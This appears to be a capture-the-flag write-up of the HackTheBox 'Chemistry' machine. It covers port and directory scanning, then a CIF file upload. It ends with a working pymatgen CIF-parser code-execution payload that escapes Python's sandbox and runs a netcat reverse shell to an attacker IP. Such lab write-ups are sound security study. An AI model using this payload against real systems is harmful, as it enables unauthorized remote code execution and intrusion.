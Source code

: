 
Chemistry is an Active seasonal machine by HackTheBox, no writeup exists for this yet, so I am hacking this blind.

I start with `nmap`, and I see port `5000` is open.

```
nmap 10.129.126.61
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-22 16:43 CDT
Nmap scan report for 10.129.126.61
Host is up (0.078s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

I run a directory search against port `5000`:

```
$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.126.61:5000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.126.61:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 926]
/register             (Status: 200) [Size: 931]
/upload               (Status: 405) [Size: 153]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/dashboard            (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard]

```

So the directories `/login` and `register` could be my way in. In the page`/register`, I create a username and password and I am let right into `/dashboard`. On the dashboard page there is input to upload a `cif` file.

There is a Proof of Concept on github: https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f, with the file text:

```

data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.207 4444 -e /bin/bash");0,0,0'


_space_group_magn.number_BNS  62.448
```